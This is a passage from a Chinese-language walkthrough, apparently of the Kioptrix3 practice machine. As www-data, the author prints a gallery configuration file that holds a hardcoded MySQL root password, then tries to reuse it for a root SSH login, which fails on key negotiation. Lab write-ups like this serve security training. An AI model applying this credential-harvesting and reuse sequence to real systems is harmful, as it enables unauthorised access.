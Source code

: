 -   查找其他有价值的目录进行信息收集-->找到gallery配置文件中存在数据库的用户密码，使用root账号密码登录ssh

-   ```shell
    www-data@Kioptrix3:/home/www/kioptrix3.com/gallery$ cat gconfig.php
    cat gconfig.php
    <?php
            error_reporting(0);
            /*
                    A sample Gallarific configuration file. You should edit
                    the installer details below and save this file as gconfig.php
                    Do not modify anything else if you don't know what it is.
            */
    
            // Installer Details -----------------------------------------------
    
            // Enter the full HTTP path to your Gallarific folder below,
            // such as http://www.yoursite.com/gallery
            // Do NOT include a trailing forward slash
    
            $GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";
    
            $GLOBALS["gallarific_mysql_server"] = "localhost";
            $GLOBALS["gallarific_mysql_database"] = "gallery";
            $GLOBALS["gallarific_mysql_username"] = "root";
            $GLOBALS["gallarific_mysql_password"] = "fuckeyou";
    
            // Setting Details -------------------------------------------------
    
    if(!$g_mysql_c = @mysql_connect($GLOBALS["gallarific_mysql_server"], $GLOBALS["gallarific_mysql_username"], $GLOBALS["gallarific_mysql_password"])) {
                    echo("A connection to the database couldn't be established: " . mysql_error());
                    die();
    }else {
            if(!$g_mysql_d = @mysql_select_db($GLOBALS["gallarific_mysql_database"], $g_mysql_c)) {
                    echo("The Gallarific database couldn't be opened: " . mysql_error());
                    die();
            }else {
                    $settings=mysql_query("select * from gallarific_settings");
                    if(mysql_num_rows($settings)!=0){
                            while($data=mysql_fetch_array($settings)){
                                    $GLOBALS["{$data['settings_name']}"]=$data['settings_value'];
                            }
                    }
    
            }
    }
    
    ?>
    ```

-   无法使用root权限的ssh进行登录，尝试进去数据库查找其他信息

-   ```shell
    ❯ ssh root@192.168.2.145                                    
    Unable to negotiate with 192.168.2.145 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
    